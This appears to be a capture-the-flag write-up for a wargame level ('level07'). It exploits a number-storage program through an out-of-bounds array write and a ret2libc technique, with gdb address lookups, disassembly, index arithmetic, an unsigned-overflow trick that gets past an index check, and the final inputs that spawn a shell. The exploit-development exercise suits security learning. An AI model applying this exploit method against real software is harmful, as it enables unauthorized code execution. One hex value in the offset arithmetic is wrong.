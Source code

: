 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis

This program appears to be a simple command-line interface for storing, reading, and managing numbers in an array-like data storage :

- The program defines functions for storing, reading, and managing numbers in an integer array.
- It reads user commands (store, read, quit) and performs corresponding actions.
- The main loop repeatedly prompts the user for commands, executes them, and provides feedback.
- The program continue until the user decides to quit or an internal error occurs.
- We cannot use the env for the exploit because it is cleared at the beginning of the `main` function
- As a result we will try to find a `/bin/sh` occurence and overflow the number storage to gain our flag


### step 3: Find occurence of /bin/sh

```
(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) print &system  
$2 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh" 
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) 
```

As a result we have :
system address : `0xf7e6aed0`
bin/sh address : `0xf7f897ec`

### step 4: Find EIP of main function

```
(gdb) b main
Note: breakpoint 1 also set at pc 0x8048729.
Breakpoint 3 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 
Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
(gdb) 
```

=> The eip address of the `main` function is `0xffffd70c`

### step 5: Find address of tab[100]

```
gdb
start 
disas main 

   0x080488df <+444>:   test   %eax,%eax
   0x080488e1 <+446>:   jne    0x80488f8 <main+469>
   0x080488e3 <+448>:   lea    0x24(%esp),%eax
   0x080488e7 <+452>:   mov    %eax,(%esp)
   0x080488ea <+455>:   call   0x8048630 <store_number>
   0x080488ef <+460>:   mov    %eax,0x1b4(%esp)
   0x080488f6 <+467>:   jmp    0x8048965 <main+578>
   0x080488f8 <+469>:   lea    0x1b8(%esp),%eax
   0x080488ff <+476>:   mov    %eax,%edx
   0x08048901 <+478>:   mov    $0x8048d61,%eax
   0x08048906 <+483>:   mov    $0x4,%ecx
   0x0804890b <+488>:   mov    %edx,%esi

   b*0x080488ea
   r
   x $eax
=> 0xffffd544:     0x00000000
```

=> The address of the tab[100] begining is `0xffffd544`

### step 6: Calculate tab index to overwrite

The interval between eip and tab is :
0xffffd70c - 0xffffd544 = 0x9E8 = 456 / 4 = 114
We divide the interval by 4 because it is an index of int which are 4 bytes long

### step 7 : Set sellcode to eip + 8 bytes

The shellcode address `0xf7f897ec`as an int is 4160264172
We set this address to the index 116 (eip + 8 bytes / 4)

```
insruction : store
number : 4160264172
index : 116
```

### step 8 : Set system address to eip

The system address `0xf7e6aed0` as an int is 4159090384

```
insruction : store
number : 4159090384
index : 114
```

However, we have a final issue. 114 can be divided by 3 so we can't write a number at the index 114 because we have this protection :
```
if ((input_index % 3 == 0) || (input_nbr >> 0x18 == 0xb7)) {
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    res = 1;
}
```

### step 9 : Use the UINTMAX overflow for the final exploit

To write a number at the index 114 even if 114 can be divided by three and therefore is protected we use the UINTMAX overflow :

114 * 4 = 456 bytes
(UINTMAX + 1) + 456 = 456
(4294967295 + 1 + 456) / 4 = 1073741938

As a conclusion, here is our second input :

```
insruction : store
number : 4159090384
index : 1073741938
```

Then we quit and we get a shell !

### step 10 : Final exploit

Here are the two inputs :

```
insruction : store
number : 4160264172
index : 116
```

```
insruction : store
number : 4159090384
index : 1073741938
```
Then we quit and we get a shell !


### Ressources :

https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue